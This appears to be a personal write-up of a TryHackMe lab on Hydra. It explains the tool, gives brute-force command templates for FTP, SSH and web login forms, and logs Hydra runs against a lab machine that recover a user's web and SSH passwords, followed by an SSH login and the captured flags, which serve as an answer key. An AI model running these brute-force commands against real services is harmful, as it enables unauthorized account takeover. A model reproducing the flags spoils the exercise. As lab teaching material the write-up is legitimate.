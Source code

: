 # Task 1 [Hydra Introduction]
----

## What is Hydra?
----

>>Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

>>We can use Hydra to run through a list and 'bruteforce' some authentication service. Imagine trying to manually guess someones password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

>>Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

>>For more information on the options of each protocol in Hydra, read the official Kali Hydra tool page: https://en.kali.tools/?p=220

>>This shows the importance of using a strong password, if your password is common, doesn't contain special characters and/or is not above 8 characters, its going to be prone to being guessed. 100 million password lists exist containing common passwords, so when an out-of-the-box application uses an easy password to login, make sure to change it from the default! Often CCTV camera's and web frameworks use admin:password as the default password, which is obviously not strong enough.

----

# Task 2 [Using Hydra] 
----

## Hydra Commands

>>The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

```bash
hydra -l user -P passlist.txt ftp://MACHINE_IP
```
>>For the purpose of this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).

## SSH
----

```bash
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh
```

## Post Web Form
----

>>We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, or simply view the source code.

>>Below is an example Hydra command to brute force a POST login form:

```bash
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

>>You should now have enough information to put this to practise and brute-force yourself credentials to the deployed machine!

----

# MY DOCUMENTATION :
----

>>WEB CREDS BRUTE FORCING

```bash
root@ip-10-10-125-200:~# hydra -l molly -P rockyou.txt 10.10.157.93 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2021-12-01 15:44:51
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.157.93:80//login:username=^USER^&password=^PASS^:F=incorrect
[80][http-post-form] host: 10.10.157.93   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2021-12-01 15:45:06

# LOGIN TO THE WEBSITE TO GET THE FLAG
THM{2673a7dd116de68e85c48ec0b1f2612e}
```

>>SSH BRUTE FORCING 

```bash 
root@ip-10-10-125-200:~# hydra -l molly -P rockyou.txt 10.10.157.93 -t 4 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2021-12-01 15:27:31
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://10.10.157.93:22/
[22][ssh] host: 10.10.157.93   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2021-12-01 15:27:57
root@ip-10-10-125-200:~# ssh molly@10.10.157.93
The authenticity of host '10.10.157.93 (10.10.157.93)' can't be established.
ECDSA key fingerprint is SHA256:W6tgaf543kaSrUmq4/RQ5qQWtTR4x5fv83qtl4f7q/I.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.157.93' (ECDSA) to the list of known hosts.
molly@10.10.157.93's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.


Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
molly@ip-10-10-157-93:~$ ls
flag2.txt
molly@ip-10-10-157-93:~$ cat flag2.txt 
THM{c8eeb0468febbadea859baeb33b2541b}
```
----

# Answer the questions below
----

1.Read the above and have Hydra at the ready.
>>No answer needed

2.Use Hydra to bruteforce molly's web password. What is flag 1?
>>THM{2673a7dd116de68e85c48ec0b1f2612e}

3.Use Hydra to bruteforce molly's SSH password. What is flag 2?
>>THM{c8eeb0468febbadea859baeb33b2541b}

----